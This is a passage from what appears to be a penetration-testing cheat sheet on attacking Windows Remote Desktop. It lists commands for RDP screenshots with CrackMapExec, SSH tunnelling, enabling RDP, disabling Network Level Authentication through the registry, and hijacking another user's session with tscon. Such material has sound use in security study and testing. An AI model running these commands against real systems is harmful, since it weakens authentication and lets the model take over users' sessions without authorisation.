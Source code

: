 	```
- **Screenshot without NLA (not connected):** You can perform a screenshot of the login page of the remote host using RDP with CrackMapExec if NLA is disabled
	```bash
	crackmapexec rdp <target_ip> --nla-screenshot
	```

## Other Techniques

### RDP Tunneling over SSH
- Establish an SSH tunnel to forward RDP traffic securely over an encrypted channel.
	```bash
	ssh -L 3389:<target_ip>:3389 <attack_ip>
	```

### Enable RDP via PowerShell
- **PowerShell:**
	```bash
	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
	```

### NLA Bypass
- Network Level Authentication (NLA) is a security feature of RDP that requires users to authenticate before a remote desktop session is established. However, misconfigurations or certain exploits can bypass NLA.
- **Disable NLA via PowerShell:**
	```bash
	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -Name "UserAuthentication" -Value 0
	```
- **Disable NLA via RegEdit:**
	```bash
	reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
	```

## RDP Session Hijacking with PowerShell
- To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft `tscon.exe` binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` we would like to connect to which session name. So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

	```bash
	ps > query user
	
	ps > tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
	```
